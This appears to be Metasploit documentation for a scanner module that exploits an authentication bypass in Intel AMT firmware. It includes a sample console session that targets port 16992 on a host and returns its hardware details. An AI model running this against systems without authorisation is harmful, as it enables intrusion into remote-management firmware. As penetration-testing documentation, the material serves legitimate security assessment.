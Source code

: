 ## Vulnerable Application

This module exploits vulnerable versions of the Intel Management Engine (ME) firmware present Intel Core CPU 1st through 7th generations that allows authentication bypass and full control over the target machine, if the Active Management Technology feature is enabled and networking is configured.

**Vulnerable Application Installation Steps**

Enable the feature in the firmware setup screen on any vulnerable target machine. The module has been tested on HP and Lenovo desktops and laptops.

## Verification Steps

A successful run of the module will look like this:


```
msf auxiliary(telnet_version) > use auxiliary/scanner/http/intel_amt_digest_bypass
msf auxiliary(intel_amt_digest_bypass) > show options

Module options (auxiliary/scanner/http/intel_amt_digest_bypass):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    16992            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads
   VHOST                     no        HTTP server virtual host

msf auxiliary(intel_amt_digest_bypass) > set rhosts 192.168.1.18
rhosts => 192.168.1.18
msf auxiliary(intel_amt_digest_bypass) > run

[+] 192.168.1.18:16992 - Vulnerable to CVE-2017-5869 {"Computer model"=>"30A70051US", "Manufacturer"=>"LENOVO", "Version"=>"A4KT80AUS", "Serial number"=>"                    ", "System ID"=>"XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX", "Product name"=>"To be filled by O.E.M.", "Asset tag"=>"                         ", "Replaceable?"=>"Yes", "Vendor"=>"LENOVO", "Release date"=>"09/23/2015"}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
